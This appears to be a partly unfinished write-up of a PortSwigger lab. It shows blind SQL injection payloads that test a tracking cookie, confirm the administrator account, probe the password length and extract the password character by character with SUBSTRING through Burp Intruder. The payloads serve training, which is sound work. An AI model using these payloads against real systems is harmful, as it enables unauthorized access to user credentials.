





# Write-up: Blind SQL injection with conditional responses   
  
Lab-link: https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses  
Difficulty: Practitioner   
Status: Solved  

## Lab description  
 

## Objectives 
Retrieve the password of `administrator` user and log into their account  

## Background  
### Blind SQL injection  
Blind SQL injection occurs when an application is vulnerable to SQL injection, but the results of the injected query are not directly displayed in the response.

Instead, information must be inferred from differences in the application's behavior. In this lab, the presence or absence of the **Welcome back!** message is used to determine whether an injected condition is true or false  

### Conditional responses  
A **conditional response** is a visible difference in the application's response depending on whether an SQL condition is true or false.
For example:  
`' AND 1=1--` causes **Welcome back!** to appear, while:
`' AND 1=2--` does not.

This difference allows the response to be used as a **Boolean oracle** during the attack.

### `SELECT` subqueries  

### Brute-force attack  

### [Burp Intruder](https://portswigger.net/burp/documentation/desktop/tools/intruder)
Explain how Burp Intruder 
### Substring
SUBSTRING(password,1,1): the functions of the positions  

## Steps  
### 1. Establish a baseline  
Firstly, I chose the **Pets** category
In Burp Suite, I intercepted this request and sent it to Repeater  
   

### 2. Confirm the parameter is vulnerable to blind SQLi  
With the value of the **trackingId** available in the request, I injected these payloads one by one: `' AND 1=1--` and `' AND 1=2--`  
Although both queries returned status `200 OK`, **Welcome back!** message just appeared with the first payload. This indicated that  

### 3. Confirm that users table and administrator user exist  
I injected these query respectively:    
```text
' AND (SELECT 'x' from users LIMIT 1)='x'--
```
```text
' AND (SELECT 'x' from users WHERE username='administrator')='x'--
```
Both responses returned **Welcome back!** message, so `user` table and `administrator` user existed  
Why add limit 1  
 
### 4. Identify the length of password  
I injected 2 payloads: 
```text
' AND (SELECT 'x' from users WHERE username='administrator' AND LENGTH(password)>1)='x'--
```
```text
' AND (SELECT 'x' from users WHERE username='administrator' AND LENGTH(password)>30)='x'--
```
The first payload returned successfull response, while the second one did not. This indicated that the length of password was within in range (1,30)  
Now, I sent the request to Intruder  
In the tab Burp Intruder, I chose the number used to compare with the length of password and click **Add §**  
I chose **Sniper attack** (analyze Sniper attack) and sent with the payload type: `Numbers`, Number range From `1` To `30` Step `1`  
   
In Settings, **Grep Match** section, I cleared the list available and I added `Welcome back!` message.  

Start attack: 
Intruder attack told us that when the response for the payload from 1-19 had Welcome back! message, but it did not appear with the payload 20. This indicated that the length of password was 20. 
  

### 5. Retrieve the administrator password  
Now, I injected:   
```text
' AND (SELECT SUBSTRING(password,1,1) from users WHERE username='administrator')='a'--
```
Now I chose **Add §** for 2 positions: the first number `1` in the SUBSTRING and the character `a`.
I chose Cluster bomb attack (analyze Cluster bomb attack)
With payload postion **1-1**, I chose the payload type: `Numbers`, Number range From `1` To `20` Step `1`  
 
With payload postion **2-a**, I chose the payload type: `Brute forcer`, Number range From `1` To `20` Step `1`  
  
I took each value for each position in the password
In Settings, **Grep Match** section, I cleared the list available and I added `Welcome back!` message.  
Start attack:  
The result was each position each character: 
  
The administrator password was: `il2mtulhg7q5dub2kqc4`  
And the lab was solved:  
  
